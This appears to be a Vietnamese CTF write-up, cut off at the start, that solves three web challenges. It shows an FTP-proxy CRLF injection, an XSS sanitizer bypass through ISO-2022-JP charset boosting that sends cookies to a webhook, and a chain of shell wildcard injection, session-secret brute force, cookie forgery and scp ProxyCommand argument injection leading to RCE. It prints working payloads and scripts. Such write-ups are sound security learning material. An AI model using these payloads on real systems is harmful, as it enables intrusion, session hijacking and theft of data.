    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
</body>
</html>
```
</details>

* Ở protocols và options được check bằng hàm isset và preg_match dùng để check regex. Ở đây !preg_match có nghĩa là sẽ check protocol và options có là http hoặc ftp không, nếu có sẽ set là null. Vậy nếu protocols được set thì sao? php sẽ gửi request sau đến express **\$resp = \@fopen("\$protocol://127.0.0.1:3000/$name", 'r', false, $context);**. Liệu ta có khai thác được gì từ đây không ? Có thể thấy hàm preg_match đã cấm không cho ta xài các internet protocol bao gồm http và file nên mình sẽ thử các giao thức khác. Vậy giao thức nào mình sẽ sử dụng?

Đọc lại source code mình có thấy hàm @fopen có sử dụng context parameter để config lại cho các giao thức nên mình có thử tìm hiểu về hàm này 

https://www.php.net/manual/en/function.fopen.php



Vì vậy mình search những protocols có các context options khả dụng trong php



Và mình có search FTP context options trong php sẽ bao gồm phần proxy là 

https://www.php.net/manual/en/context.ftp.php



OK thì mình có thể sẽ sử dụng ftp request để proxy qua port 5000 và endpoint /flag được truyền thông qua param name thông qua host là port 3000

Vì thế payload của mình sẽ là 

`name=flag&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Nhưng mà trong file app.py lại yêu cầu request form và header password phải là admin 

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
```

nên mình sẽ thực hiện CRLF injection

Ta sẽ thêm thắt các Header và body data thành request như sau

flag HTTP/1.1
Host: 127.0.0.1/5000
Password: admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin

Chuyển đổi CRLF ta có 

```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```

Vậy payload cuối cùng ta có là

`name=flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadminn&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Send request và ta có flag



Flag : INTIGRITI{fake_flag}

## Sushi Search 



#### Source 

https://drive.google.com/file/d/1jTPtaBPfvDlrWzAx9rKx8K2Lip2xX5Ll/view?usp=sharing

#### Hints

XSS, Missing charset, Boost character set

#### Solution

Đề bài cho mình một trang web sau





Source code của web :

<details>
<summary>index.js</summary>

```js
const fastify = require("fastify")();
const createDOMPurify = require("dompurify");
const ejs = require("ejs");
const path = require("path");
const formbody = require("@fastify/formbody");
const { JSDOM } = require("jsdom");
const { visit } = require("./bot");
const port = 80;
const host = "0.0.0.0";

const items = [
    {
        title: "Nigiri",
        description: "A classic sushi made with a slice of raw fish on top of vinegared rice.",
        price: 5.0,
    },
    {
        title: "Maki Roll",
        description:
            "A sushi roll with seaweed on the outside and rice, fish, and vegetables inside.",
        price: 6.5,
    },
    { title: "Sashimi", description: "Thin slices of raw fish served without rice.", price: 8.0 },
    {
        title: "Temaki",
        description: "A hand-rolled sushi cone filled with rice, fish, and vegetables.",
        price: 7.0,
    },
    {
        title: "California Roll",
        description:
            "A popular sushi roll made with crab, avocado, cucumber, and rice, often with sesame seeds.",
        price: 6.0,
    },
    {
        title: "Ebi Tempura Roll",
        description: "A sushi roll with tempura-fried shrimp, cucumber, and avocado.",
        price: 7.5,
    },
    {
        title: "Dragon Roll",
        description: "A sushi roll with eel, cucumber, and avocado, topped with unagi sauce.",
        price: 9.0,
    },
    {
        title: "Spicy Tuna Roll",
        description: "A sushi roll with spicy tuna, cucumber, and sesame seeds.",
        price: 6.5,
    },
    {
        title: "Unagi Nigiri",
        description:
            "Grilled eel served on top of vinegared rice with a drizzle of sweet unagi sauce.",
        price: 7.0,
    },
    {
        title: "Rainbow Roll",
        description: "A colorful sushi roll topped with a variety of raw fish and avocado.",
        price: 10.0,
    },
];

// Register middleware
fastify.register(formbody);

fastify.register(require("@fastify/view"), {
    engine: {
        ejs: ejs,
    },
});

fastify.register(require("@fastify/static"), {
    root: path.join(__dirname, "public"),
    prefix: "/public/",
});

// Routes
fastify.get("/", async (req, reply) => {
    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "index.ejs"));
    reply.type("text/html").send(resp);
});

fastify.get("/search", async (req, reply) => {
    const query = req.query.search || "";

    const matchedItems = items.filter(
        (item) =>
            item.title.toLowerCase().includes(query.toLowerCase()) ||
            item.description.toLowerCase().includes(query.toLowerCase())
    );

    const window = new JSDOM("").window;
    const DOMPurify = createDOMPurify(window);
    const cleanQuery = DOMPurify.sanitize(query);

    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "result.ejs"), {
        message: cleanQuery,
        items: matchedItems,
    });
    reply.type("text/html").send(resp);
});

fastify.get("/report", async (req, reply) => {
    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "report.ejs"), {
        message: "",
    });
    reply.type("text/html").send(resp);
});

fastify.post("/report", async (req, reply) => {
    const { url } = req.body;
    let message;

    try {
        message = await visit(url);
    } catch (error) {
        message = error.message;
    }
    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "report.ejs"), { message });
    reply.type("text/html").send(resp);
});

fastify.setErrorHandler(function (error, request, reply) {
    console.error("Error occurred:", error);
    reply.status(500).send({ error: "Something went wrong. Please try again later." });
});

fastify.listen({ port, host }, (err, address) => {
    if (err) {
        console.error(err);
        process.exit(1);
    }
    console.log(`Fastify app listening at ${address}`);
});
```
    
</details>

<details>
<summary>bot.js</summary>
    
```js
const puppeteer = require("puppeteer");

let browser;

const FLAG = process.env.FLAG || "INTIGRITI{fake_flag}";
const URL_HOST = process.env.URL_HOST || "http://127.0.0.1";

async function startBrowser() {
    if (browser) return;

    browser = await puppeteer.launch({
        headless: true,
        args: [
            "--disable-dev-shm-usage",
            "--no-sandbox",
            "--disable-setuid-sandbox",
            "--disable-gpu",
            "--no-gpu",
            "--disable-default-apps",
            "--disable-translate",
            "--disable-device-discovery-notifications",
            "--disable-software-rasterizer",
            "--disable-xss-auditor",
        ],
    });
}

async function visit(url) {
    if (!url) {
        return "URL is required.";
    }

    if (!url.startsWith(URL_HOST + "/")) {
        return `Only URLs starting with ${URL_HOST} are allowed.`;
    }

    await startBrowser();

    const context = await browser.createBrowserContext();
    const page = await context.newPage();

    const cookie = {
        name: "FLAG",
        value: FLAG,
        domain: new URL(URL_HOST).hostname,
        httpOnly: false,
    };

    try {
        await page.setCookie(cookie);
        await page.goto(url, { waitUntil: "networkidle2" });
        await context.close();
        return `Visited ${url} successfully.`;
    } catch (error) {
        await context.close();
        throw new Error(`Failed to visit ${url}: ${error.message}`);
    }
}

module.exports = { visit };
    
```
    
</details>

Phân tích : 
* Trang web có 2 endpoint cần lưu ý là search và report
* Ở /search khi ta nhập vào param search thì trang web sẽ tìm các sushi có filter liên quan đến param đó, nhưng sẽ bị sanitized trước khi được render ra result.ejs
* Ở /report là trang web nhận vào 1 url để gọi 1 bot visit có chứa flag trong cookie
* Như mọi bài XSS, nhiệm vụ của chúng ta là gọi bot để visit và fetch về server riêng từ đó lấy được cookie và những thông tin khác.
* Nhưng mà làm gì dễ thế... các url khi ta truyền vào bị sanitized trước khi render nên mình không thể thực hiện xss như bình thường được nên phải thông qua một cách nào đó 
* Và có một vấn đề mình có thể khai thác đó là trang web bị thiếu charset trong các response mình gửi lên 



* Vậy làm sao để mình exploit vấn đề này. Sau khi đọc blog của sonarsource về missang charset https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/ thì mình đã có ý tưởng để bypass hàm sanitize. Giả sử payload của mình trong các bài XSS cơ bản là `````` sẽ bị sanitize nhưng khi ta truyền như thế này ```<a id=">">``` thì trong nhiều bộ encoding khác sẽ encode thành ```<a id=\">\">``` và browser sẽ hiểu rằng đây là một id string thông thường nhưng khi ta sử dụng bộ encoding ISO-JP-2022 thì sẽ trờ thành ```<a id=¥">¥">``` và tag img đã thoát ra ngoài có thể thực thi. Từ đó ta có thể element a được tách ra thành 2 element và ta có thể bypass được sanitize.
* Ok vấn đề thứ 2 là khi mình check charset của trang web thì mình nhận được kết quả là windows-1252 chứ không phải là ISO-JP-2022 mà ta mong muốn. 



* Mình có thử tìm hiểu thì khi trang web không có charset encoding thì browser sẽ tự detect xem charset nào được nên sử dụng và trường hợp ở đây là windows-1252. Mình có ngó qua source và frontend thì có chỗ sau là chứa ký tự đặc biệt nên chắc browser detect ra. 



* Vậy làm sao để chuyển đổi charset ? Mình có thử đọc qua source của chromium mới biết có cái gọi là boost dùng để tăng value của bộ encode. Sau đó browser sẽ dựa vào bộ nào có value cao nhất sẽ sử dụng cho web.





* Vậy ý tưởng của mình là sẽ spam cho bộ ISO-JP-2022 lên để chuyển đổi. Nhưng bằng cách nào? thì như hình trên chỉ cần trong web có các ký tự <esc>(B, <esc>(J, <esc>\$@, <esc>\$B là sẽ boost được điểm của ISO-JP-2022. Các ký tự trên là escape character để chuyển đổi các bộ charsets. Từ đó ý tưởng của mình là swap 2 bộ charset liên tục sao cho tăng điẻm lên nhưng ở đây phải sử dụng <esc>(B cuối cùng để sử dụng ASCII. Qua đó mình có thể truyền vào payload sau để boost ở dây mình xài <esc>\$@

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id=">
`

Sau khi sử dụng payload trên thì mình đã chuyển đổi được encoding sang ISO-JP-2022


    


Kết hợp với payload XSS trên thì mình có payload sau 
    
`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id=">">
`

Nhập vào và mình đã thành công XSS trang web và cho nó hiện alert(1)
    


Tiếp theo công việc đơn giản là report link đã được thêm vào fetch webhook để lấy cookie thôi
    


Và đây là payload của mình

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id=">'%2bdocument.cookie)>">
`

Sau khi mình report thì đã có flag



Flag : INTIGRITI{fake_flag}  

## Global backups

#### Source

https://drive.google.com/file/d/1ebnv59RbD2QY_U5_oEidI4gOXx9M_rlA/view?usp=sharing

#### Hints 

Bun shell, Wildcard injection, crack session id, path traversal, argument injection

#### Solution

Đề bài cho mình một trang web sau giống với trang đăng nhập windows 10


Ok sau khi đọc source thì đây là những file mình cần lưu ý 

</details>

<details>
<summary>Dockerfile</summary>

```Dockerfile
FROM oven/bun:1.1.8

RUN apt-get update && apt-get install -y openssh-client curl gcc

WORKDIR /app
RUN adduser -u 1337 --disabled-password --gecos '' user
COPY package.json bun.lockb ./
RUN bun install

COPY src ./src
COPY views ./views
COPY public ./public

RUN mkdir /tmp/files && chown user /tmp/files

WORKDIR /home/user/.ssh
RUN ssh-keygen -t ed25519 -f id_ed25519 -N ''
RUN echo 'StrictHostKeyChecking=accept-new' > config
RUN chown -R user:user .

COPY flag.txt readflag.c /
RUN gcc /readflag.c -o /readflag
RUN chmod 400 /flag.txt && chmod +s /readflag

WORKDIR /app
COPY entrypoint.sh /
RUN chmod +x /entrypoint.sh

USER user
ENV NODE_ENV=production

ENTRYPOINT [ "/entrypoint.sh" ]
CMD [ "bun", "run", "src/index.ts" ]
```

</details>

<details>
<summary>router.ts</summary>

```ts
import { $ } from "bun";
import { readdir, mkdir, unlink } from "fs/promises";
import express, { type NextFunction, type Request, type Response } from "express";
import "express-async-errors";
import path from "path";

import { getUser } from "./db";
import { sanitize, sizeToString, timeAgo } from "./utils";
import { stat } from "fs/promises";

const router = express.Router();

router.get("/", function (req: Request, res: Response) {
  res.render("index", { username: req.session.username });
});

// Auth

router.get("/login", function (req: Request, res: Response) {
  res.render("login");
});

router.post("/login", async function (req: Request, res: Response) {
  let { username, password } = req.body;

  if (typeof username !== "string" || typeof password !== "string") {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  username = sanitize(username);
  const user = await getUser(username);

  if (user && (await Bun.password.verify(password, user.password))) {
    console.log(`User '${username}' logged in`);

    req.session.username = username;
    req.session.cookie.maxAge = 9999999999999; // Keep logged-in sessions alive
    req.flash("Successfully logged in!");
    res.redirect("/files");
  } else {
    await $`echo ${username} failed to log in >> /tmp/auth.log`;
    req.flash("Invalid username or password!");
    res.redirect("/login");
  }
});

router.use((req, res, next) => {
  // Auth middleware
  if (req.session.username) {
    req.session.username = sanitize(req.session.username);
    if (/[-\/]/.test(req.session.username)) {
      res.type("txt");
      res.status(400).send("Invalid username!");
      return;
    }
    next();
  } else {
    req.flash("You need to be logged in to access this page!");
    res.redirect("/login");
  }
});

router.get("/logout", function (req: Request, res: Response) {
  delete req.session.username;
  req.session.cookie.maxAge = 0;
  req.flash("Successfully logged out!");
  res.redirect("/");
});

// Files

router.get("/files", async function (req: Request, res: Response) {
  const dir = `/tmp/files/${req.session.username}`;
  try {
    await mkdir(dir);
  } catch {}
  const filenames = await readdir(dir);

  const files = await Promise.all(
    filenames.map(async (file) => {
      const stats = await stat(path.join(dir, file));
      const size = sizeToString(stats.size);
      const accessed = timeAgo(stats.atime);
      return { name: file, size: size, accessed };
    })
  );

  res.render("files", { files });
});

router.get("/file/:name", function (req: Request, res: Response) {
  let { name } = req.params;

  name = sanitize(name);

  res.download(`/tmp/files/${req.session.username}/${name}`);
});

router.post("/upload", async function (req: Request, res: Response) {
  const file = req.files?.file;

  if (!file || Array.isArray(file)) {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  file.name = sanitize(file.name);

  await file.mv(`/tmp/files/${req.session.username}/${file.name}`);

  req.flash("File uploaded!");
  res.redirect("/files");
});

router.post("/delete/:name", async function (req: Request, res: Response) {
  let { name } = req.params;

  name = sanitize(name);

  await unlink(`/tmp/files/${req.session.username}/${name}`);

  req.flash("File deleted!");
  res.redirect("/files");
});

// Backup

router.post("/backup", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = (await $`echo $(mktemp -d)/backup.tar.gz`.text()).trim();
  await $`tar -czf ${tar} .`.cwd(cwd);
  await $`scp ${tar} ${req.session.username}@backup:`.cwd(cwd);

  req.flash("Files backed up!");
  res.redirect("/files");
});

router.post("/restore", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = "backup.tar.gz";
  await $`scp ${req.session.username}@backup:${tar} .`.cwd(cwd);
  await $`tar -xzf ${tar} && rm ${tar}`.cwd(cwd);

  req.flash("Files restored!");
  res.redirect("/files");
});

router.use((err: Error, req: Request, res: Response, next: NextFunction) => {
  err.stack = "";
  console.error(err);
  res.type("txt");
  res.status(500).send(`${err.name}: ${err.message}`);
});

export default router;
```

</details>

<details>
<summary>util.ts</summary>

```ts
import { normalize } from "path";

export function sanitize(s: string): string {
  s = s.replace(/[#;`$|&<>'"\\]/g, "");

  if (s.startsWith("/")) {
    s = normalize(s);
  } else {
    s = normalize("/" + s).slice(1);
  }

  if (["", ".", "..", "/"].includes(s)) {
    throw new Error("Invalid input!");
  } else {
    return s;
  }
}

export function sizeToString(size: number): string {
  if (size < 1024) {
    return size + "B";
  } else if (size < 1024 * 1024) {
    return (size / 1024).toFixed(1) + "KB";
  } else if (size < 1024 * 1024 * 1024) {
    return (size / 1024 / 1024).toFixed(1) + "MB";
  } else {
    return (size / 1024 / 1024 / 1024).toFixed(1) + "GB";
  }
}

export function timeAgo(date: Date): string {
  const seconds = Math.floor((Date.now() - date.getTime()) / 1000);

  if (seconds < 60) {
    return seconds + " seconds ago";
  } else if (seconds < 60 * 60) {
    return Math.floor(seconds / 60) + " minutes ago";
  } else if (seconds < 60 * 60 * 24) {
    return Math.floor(seconds / 60 / 60) + " hours ago";
  } else {
    return Math.floor(seconds / 60 / 60 / 24) + " days ago";
  }
}
```

</details>

</details>

<details>
<summary>index.ts</summary>

```ts
import express from "express";
import session from "express-session";
import fileUpload from "express-fileupload";
import FileStore_ from "session-file-store";
import { readdir, unlink, stat } from "fs/promises";
import path from "path";

import routes from "./routes";

const PORT = 8000;

const app = express();
app.use(express.urlencoded({ extended: true }));
app.use(express.static("public", { maxAge: 1000 * 60 * 60 }));
app.use(fileUpload());
app.set("view engine", "ejs");

const FileStore = FileStore_(session);

app.use(
  session({
    store: new FileStore({
      path: "/tmp/sessions",
      ttl: 60,
      reapInterval: 60,
    }),
    secret: Bun.env.SECRET,
    resave: true,
    saveUninitialized: true,
  })
);

declare module "bun" {
  interface Env {
    SECRET: string;
    ADMIN_PASSWORD: string;
  }
}

declare module "express-session" {
  interface SessionData {
    username: string;
    flash: Array<string>;
  }
}

declare global {
  namespace Express {
    interface Request {
      flash(message: string): void;
    }
  }
}

app.use((req, res, next) => {
  // Flash messages
  req.flash = function (message: string) {
    if (!req.session?.flash) req.session.flash = [];
    req.session.flash?.push(message);
  };

  const render = res.render;
  res.render = function (...args) {
    if (req.session) {
      res.locals.flash = req.session.flash || [];
      req.session.flash = [];
    } else {
      res.locals.flash = [];
    }
    // @ts-ignore: Target allows only 2 element(s) but source may have more
    render.apply(res, args);
  };
  next();
});

setInterval(async () => {
  // Clean up old files (last accessed more than 5 minutes ago)
  for (const file of await readdir("/tmp/files", { recursive: true, withFileTypes: true })) {
    if (file.isFile()) {
      const fullPath = path.join("/tmp/files", file.name);
      if ((await stat(fullPath)).atimeMs << Date.now() - 5 * 60 * 1000) {
        await unlink(fullPath);
        console.log(`Purged ${fullPath}`);
      }
    }
  }
}, 60 * 1000);

app.use("/", routes);

app.listen(PORT, function () {
  console.log(`Listening at http://localhost:${PORT}`);
});
```

</details>
    
    
Phân tích : 
    
* Trang web sử dụng 2 service trong đó app là phần web trên còn backup đóng vai trò như một server ssh mà app có thể copy file vào 
* Có thể thấy mục tiêu của ta là thực thi được file /readflag để đọc được flag nên ban đầu mình nghĩ sẽ có lỗ hổng command injection hoặc path traversal gì đó có liên quan đến file
* Mình thử đăng nhập vào nhưng không được nên đọc lại source và phát hiện có vài chỗ đáng lưu ý 
    
Đầu tiên web sẽ sử dụng path /tmp/sessions là nơi lưu các file session của web và secret được lấy từ biến environment
    
```js
app.use(
  session({
    store: new FileStore({
      path: "/tmp/sessions",
      ttl: 60,
      reapInterval: 60,
    }),
    secret: Bun.env.SECRET,
    resave: true,
    saveUninitialized: true,
  })
);    
```
    
Trang /login sẽ lấy 2 param là username và password để check nhưng trước đó username đã qua sanitize. Thêm nữa Bun Shell sẽ thực thi đưa username vào /tmp/auth.log nếu không tìm được username tương ứng
    
```js
router.get("/login", function (req: Request, res: Response) {
  res.render("login");
});

router.post("/login", async function (req: Request, res: Response) {
  let { username, password } = req.body;

  if (typeof username !== "string" || typeof password !== "string") {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  username = sanitize(username);
  const user = await getUser(username);

  if (user && (await Bun.password.verify(password, user.password))) {
    console.log(`User '${username}' logged in`);

    req.session.username = username;
    req.session.cookie.maxAge = 9999999999999; // Keep logged-in sessions alive
    req.flash("Successfully logged in!");
    res.redirect("/files");
  } else {
    await $`echo ${username} failed to log in >> /tmp/auth.log`;
    req.flash("Invalid username or password!");
    res.redirect("/login");
  }
});    
```
    
Nhưng khi mình check lại hàm sanitize thì có một chỗ khá sus là nó thiếu dấu *. Dấu * là một wildcard character có thể check tất cả file trùng với prefix trước * https://www.warp.dev/terminus/linux-wildcards#asterisk-and-question-mark-are-the-two-wildcard-characters. Thế là mình nghĩ đến việc xài * để thực hiện command injection
    
```js
export function sanitize(s: string): string {
  s = s.replace(/[#;`$|&<>'"\\]/g, "");

  if (s.startsWith("/")) {
    s = normalize(s);
  } else {
    s = normalize("/" + s).slice(1);
  }

  if (["", ".", "..", "/"].includes(s)) {
    throw new Error("Invalid input!");
  } else {
    return s;
  }
}    
```
    
Cụ thể thì là khi mình nhập vào username thì nó sẽ parse vào ```await $`echo ${username} failed to log in >> /tmp/auth.log`;``` Vậy nếu giả sử mình truyển vào tên file và một asterisk thì như thế nào giả sử như /etc/passwd*

Thì nó sẽ tìm các file có dạng /etc/passwd ở đầu tên và yeah chắc chắn tồn tại file đó trên mọi máy linux 


Nhưng nếu mình truyền vào một file không tồn tại thì sao như là /etc/passwd1    


Thì nó sẽ báo lỗi shell do không tìm thấy được file nào có dạng như vậy, từ đó mình có ý tưởng sẽ brute force kiểu kiểu giống như blind sqli để tìm ra file session của admin
    
Từ đó mình có đoạn script sau để leak file session của admin : 

```python
import requests

a="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_"
s=""
for i in range(100):
    f=0
    for j in a:
        data = 'username=/tmp/sessions/'+s+j+'*&password=123'
        print(s+j)
        r = requests.post('http://127.0.0.1:8000/login', headers={
            'Content-Type': 'application/x-www-form-urlencoded'
        }, data=data)
        if ("Error" not in r.text):
            s+=j
            f=1
            continue
    if f ==0 : break

print("Found : ", s)
```
    


* Ok thì mình đã có một file session của admin bây giờ chỉ cần tìm secret là có được session vào trong web, và mình nhận ra SECRET sử dụng một biến $RANDOM của bash

```sh
export SECRET=$RANDOM
```
    
Mình có đọc doc của biến này thì chỉ chứa giá trị từ 0 đến 32767 là khoảng hợp lý để ta có thể brute force.
    


Nhưng brute bằng cách nào ?
    
Thì mình thấy web có thể tận dụng express session có sẵn khi ta vào web
    


Ok thì làm sau để brute force thì mình có đọc qua doc của hàm tạo signature dựa vào cookie và secret 
    
https://github.com/tj/node-cookie-signature/blob/master/index.js#L16-L24
    
Có công thức rồi thì thế số vào thôi 🐧     
Mình có script để check các secret trong khoảng trên như sau 
    
```js
var crypto = require('crypto');
function sign (val, secret){
    if ('string' != typeof val) throw new TypeError("Cookie value must be provided as a string.");
    if (null == secret) throw new TypeError("Secret key must be provided.");
    return val + '.' + crypto
      .createHmac('sha256', secret)
      .update(val)
      .digest('base64')
      .replace(/\=+$/, '');
};
data="f_NQ6CvVqYcD8Uskp5AKgmOhQ_Rljxzb"
s="wbp4w0leEWw8XECzny0slzROSOLSp42ywTrD6pkbN4A"
for (let i=0; i<40000; i++){
    if (sign(data, String(i)) == data+"."+s){
        console.log("Found :", i)
        break
    }
}
    
```
    
Khi chạy thì ta có kết quả secret là 30918></40000;>
                                


Từ file session và secret mình có thể tạo ra cookie để login vào bằng hàm sign đã xài ở trên
    
```js
var crypto = require('crypto');
function sign (val, secret){
    if ('string' != typeof val) throw new TypeError("Cookie value must be provided as a string.");
    if (null == secret) throw new TypeError("Secret key must be provided.");
    return val + '.' + crypto
      .createHmac('sha256', secret)
      .update(val)
      .digest('base64')
      .replace(/\=+$/, '');
};
data="hZ-cQfCYf55YkYHaJJQFh_I-QviU-333"
secret="30918"
console.log("s:"+sign(data, secret))    
```
    


Và boom khi thay vào thì mình đã đăng nhập được
    




Ok thì mình đọc lại source của các hàm trong web thì có function upload sau
    
```js
router.post("/upload", async function (req: Request, res: Response) {
  const file = req.files?.file;

  if (!file || Array.isArray(file)) {
    res.type("txt");
    res.status(400).send("Invalid parameters!");
    return;
  }

  file.name = sanitize(file.name);

  await file.mv(`/tmp/files/${req.session.username}/${file.name}`);

  req.flash("File uploaded!");
  res.redirect("/files");
});    
```

Có thể thấy file.name bị filter rất nghiêm ngặt nên mình không thể path traversal hay gì được :vv Nhưng mà nó lại xài hàm sanitize trên và đương nhiên không filter dấu asterisk * . 
Đọc thử hàm backup và restore xem có gì hot
    
```js
router.post("/backup", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = (await $`echo $(mktemp -d)/backup.tar.gz`.text()).trim();
  await $`tar -czf ${tar} .`.cwd(cwd);
  await $`scp ${tar} ${req.session.username}@backup:`.cwd(cwd);

  req.flash("Files backed up!");
  res.redirect("/files");
});
router.post("/restore", async function (req: Request, res: Response) {
  const cwd = `/tmp/files/${req.session.username}`;
  const tar = "backup.tar.gz";
  await $`scp ${req.session.username}@backup:${tar} .`.cwd(cwd);
  await $`tar -xzf ${tar} && rm ${tar}`.cwd(cwd);

  req.flash("Files restored!");
  res.redirect("/files");
});
```
    
có thể thấy endpoint /restore xài hàm scp để copy đến server backup, và mình có thử tìm một vài lỗ hổng liên quan đến ssh và scp và mình tìm được cái này https://sonarsource.github.io/argument-injection-vectors/binaries/ssh/#command 
    
Ok và mình có ý tưởng là sử dụng options ProxyCommand để chạy một lệnh shell từ đó lấy được flag. Mình có thể sử dụng payload như sau ```scp '-oProxyCommand=sh cmd.sh @backup:backup.tar.gz' cmd.sh a@backup:backup.tar.gz``` sở dĩ thêm a@backup:backup.tar.gz vì mình cần có target để chạy. ở đây mình cần 3 tham số nhưng chỉ được truyền vào username nên mình có ý tưởng upload 3 files với 3 tham số đó và dùng asterisk trong username để list 3 file đó ra. 
    
Vậy làm sao để tạo một user mới? Ở đây mình có thể tải lên một file bất kỳ vậy nếu mình upload một file session cookie thì sao. Khi đó ta có thể set cookie có đường dẫn session file là ../files/admin/<tên file> qua đó có thể path traversal đến file json mình mới upload. Ok vậy mình thử upload một file session như sau
    
```json
{
    "cookie": {
        "originalMaxAge": 9999999999997,
        "expires": "2341-10-09T09:09:12.936Z",
        "httpOnly": true,
        "path": "/"
    },
    "username": "winky",
    "flash": [
        "Successfully logged in!"
    ],
    "__lastAccess": 1731943352940
}    
```
    

    


Sử dụng script lúc nãy để tạo session id có session file là ../files/admin/fake



Dán vào browser và mình đã đổi được tên username    
    

    
Ok ngon rồi, thì giờ mình sẽ đổi tên thành * để thực hiện argument injection



Giờ mình sẽ upload lên 3 files trên để thực hiện RCE
    

    


Ấn backup và restore để chạy lệnh scp và ta đã thành công tạo được file a



OK và mình đã RCE thành công, giờ mình sẽ chạy readflag và lấy kết quả trả về 
Payload : `echo $(/readflag) > b`
    


Sau khi thực hiện backup và restore thì trên file explorer có một file b như sau 
    


Download về và mình có được flag




Flag : CTF{f4k3_fl4g_f0r_t3st1ng}